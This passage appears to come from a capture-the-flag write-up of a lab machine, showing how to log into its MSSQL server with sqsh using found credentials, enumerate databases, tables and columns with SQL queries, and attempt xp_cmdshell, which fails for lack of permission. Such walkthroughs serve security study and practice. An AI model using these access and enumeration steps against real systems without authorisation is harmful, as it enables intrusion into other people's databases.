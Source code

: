 - or we can use sqsh to access the mssql database

```shell
sqsh -S 10.10.11.236 -U .\\operator -P operator -D msdb
```
- so now that we have access, we can enumerate the information on the database using commands like below
Resource: [MSSQL (Microsoft SQL) Pentesting | Exploit Notes (hdks.org)](https://exploit-notes.hdks.org/exploit/database/mssql-pentesting/)

```shell
enum_db # enumerate the databases in the server
USE msdb # switch to the msdb database
SELECT * FROM msdb.INFORMATION_SCHEMA.TABLES; #list all the tables in the msdb database
```

![](assets/Manager_assets/Pasted%20image%2020231230151334.png)

- the command below would give same output with enum_db

```shell
SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;
```

- we can also list the columns in the database, lets say we want to list the columns in the backupfile table, we can do

```shell
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘backupfile’);
```

- so if we try to run the `xp_cmdshell` but we can see we don't have permission to, and we also don't have the permission to enable it either

![](assets/Manager_assets/Pasted%20image%2020231230152103.png)
